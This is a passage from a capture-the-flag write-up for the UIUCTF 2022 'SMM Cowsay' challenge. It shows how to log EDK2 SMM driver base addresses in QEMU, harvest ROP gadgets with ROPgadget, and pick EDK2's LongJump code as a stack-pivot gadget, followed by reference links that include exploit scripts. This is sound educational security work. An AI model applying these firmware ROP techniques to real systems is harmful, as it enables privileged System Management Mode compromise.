 ### Finding ROP gadgets

**What can we access then?** It's clear that we'll need to ROP our way to
victory. We can modify the `run.sh` script provided to run the challenge locally
in QEMU to capture EDK2 debug messages and write them to a file (we have a
`handout/edk2debug.log` which was obtained in the same way from a sample run
when building the challenge, but it's nice to have our own). Let's add the
following arguments to the QEMU command line in `handout/run/run.sh`:

```
-global isa-debugcon.iobase=0x402 -debugcon file:../../debug.log
```

Now we can run the challenge and take a look at `debug.log`. Among the various
debug messages, EDK2 prints the base address and the entry point of every driver
it loads:

```
$ cd handout/run; ./run.sh; cd -
$ cat debug.log | grep 'SMM driver'
Loading SMM driver at 0x00007FE3000 EntryPoint=0x00007FE526B CpuIo2Smm.efi
Loading SMM driver at 0x00007FD9000 EntryPoint=0x00007FDC6E4 SmmLockBox.efi
Loading SMM driver at 0x00007FBF000 EntryPoint=0x00007FCC159 PiSmmCpuDxeSmm.efi
Loading SMM driver at 0x00007F99000 EntryPoint=0x00007F9C851 FvbServicesSmm.efi
Loading SMM driver at 0x00007F83000 EntryPoint=0x00007F8BAD0 VariableSmm.efi
Loading SMM driver at 0x00007EE7000 EntryPoint=0x00007EE99E7 SmmCowsay.efi
Loading SMM driver at 0x00007EDF000 EntryPoint=0x00007EE2684 CpuHotplugSmm.efi
Loading SMM driver at 0x00007EDD000 EntryPoint=0x00007EE2A1E SmmFaultTolerantWriteDxe.efi
```

Surely enough, the `.text` section of all these drivers will contain code we can
execute in SMM. What ROP gadgets do we have?
[Let's use `ROPGadget`][gh-ropgadget] to find them, using the base addresses
provided by the EDK2 debug log:

```bash
cd handout/edk2_artifacts
ROPgadget --binary CpuIo2Smm.efi  --offset 0x00007FE3000 >> ../../gadgets.txt
ROPgadget --binary SmmLockBox.efi --offset 0x00007FD9000 >> ../../gadgets.txt
# ... and so on ...
```

Even though we have a lot of gadgets, we need multiple ones to build a useful
ROP chain. After the `ret` from the first gadget, control will return back to
`SmmCowsayHandler` if we do not somehow move the stack (RSP) to a controlled
memory region, so the first gadget we need is one that is able to flip the stack
where we want.

There is [*a very nice gadget*][edk2-gadget] in EDK2 code:

```c
// MdePkg/Library/BaseLib/X64/LongJump.nasm
CetDone:

    mov     rbx, [rcx]
    mov     rsp, [rcx + 8]
    mov     rbp, [rcx + 0x10]
    mov     rdi, [rcx + 0x18]
    mov     rsi, [rcx + 0x20]
    mov     r12, [rcx + 0x28]
    mov     r13, [rcx + 0x30]
    mov     r14, [rcx + 0x38]
    mov     r15, [rcx + 0x40]
// ...
    jmp     qword [rcx + 0x48]
```


[smm1]: #smm-cowsay-1
[smm2]: #smm-cowsay-2
[smm3]: #smm-cowsay-3
[expl1]: https://github.com/TowerofHanoi/towerofhanoi.github.io/blob/master/writeups_files/uiuctf-2022_smm-cowsay/expl_smm_cowasy_1.py
[expl2]: https://github.com/TowerofHanoi/towerofhanoi.github.io/blob/master/writeups_files/uiuctf-2022_smm-cowsay/expl_smm_cowasy_2.py
[expl3]: https://github.com/TowerofHanoi/towerofhanoi.github.io/blob/master/writeups_files/uiuctf-2022_smm-cowsay/expl_smm_cowasy_3.py
[tweet]:                               https://twitter.com/MeBeiM/status/1554849894237609985
[uiuctf]:                              https://ctftime.org/event/1600/
[uiuctf-archive]:                      https://2022.uiuc.tf/challenges
[author]:                              https://github.com/zhuyifei1999
[wiki-smm]:                            https://en.wikipedia.org/wiki/System_Management_Mode
[intel-sdm]:                           https://www.intel.com/content/www/us/en/developer/articles/technical/intel-sdm.html
[uefi-spec]:                           https://uefi.org/specifications
[uefi-spec-pdf]:                       https://uefi.org/sites/default/files/resources/UEFI_Spec_2_9_2021_03_18.pdf
[man-cowsay]:                          https://manned.org/cowsay.1
[man-pahole]:                          https://manned.org/pahole.1
[x64-call]:                            https://docs.microsoft.com/en-us/cpp/build/x64-calling-convention?view=msvc-170
[x86-rsm]:                             https://www.felixcloutier.com/x86/rsm
[x86-rdrand]:                          https://www.felixcloutier.com/x86/rdrand
[gh-pwntools]:                         https://github.com/Gallopsled/pwntools
[gh-ropgadget]:                        https://github.com/JonathanSalwan/ROPgadget
[gh-edk2]:                             https://github.com/tianocore/edk2
[gh-edk2-securityex]:                  https://github.com/jyao1/SecurityEx
[gh-qemu]:                             https://github.com/qemu/qemu
[qemu-memtxattrs]:                     https://github.com/qemu/qemu/blob/v7.0.0/include/exec/memattrs.h#L35
[edk2-SystemTable]:                    https://edk2-docs.gitbook.io/edk-ii-uefi-driver-writer-s-guide/3_foundation/33_uefi_system_table
[edk2-SmiHandlerRegister]:             https://github.com/tianocore/edk2/blob/7c0ad2c33810ead45b7919f8f8d0e282dae52e71/MdeModulePkg/Core/PiSmmCore/Smi.c#L213
[edk2-EfiRuntimeServicesData]:         https://github.com/tianocore/edk2/blob/0ecdcb6142037dd1cdd08660a2349960bcf0270a/BaseTools/Source/C/Include/Common/UefiMultiPhase.h#L25
[edk2-SmmCommunicationCommunicate]:    https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdeModulePkg/Core/PiSmmCore/PiSmmIpl.c#L110
[edk2-EFI_SMM_COMMUNICATION_PROTOCOL]: https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdeModulePkg/Core/PiSmmCore/PiSmmIpl.c#L267
[edk2-copy-msg]:                       https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdeModulePkg/Core/PiSmmCore/PiSmmIpl.c#L547
[edk2-smi-entry]:                      https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/UefiCpuPkg/PiSmmCpuDxeSmm/X64/SmiEntry.nasm#L89
[edk2-gadget]:                         https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdePkg/Library/BaseLib/X64/LongJump.nasm#L54
[edk2-MdePkg]:                         https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdePkg/MdePkg.dec
[edk2-buffer-check]:                   https://github.com/tianocore/edk2/blob/7c0ad2c33810ead45b7919f8f8d0e282dae52e71/MdePkg/Library/SmmMemLib/SmmMemLib.c#L163
[edk2-gdt]:                            https://github.com/tianocore/edk2/blob/2812668bfc121ee792cf3302195176ef4a2ad0bc/UefiCpuPkg/PiSmmCpuDxeSmm/X64/SmiException.nasm#L31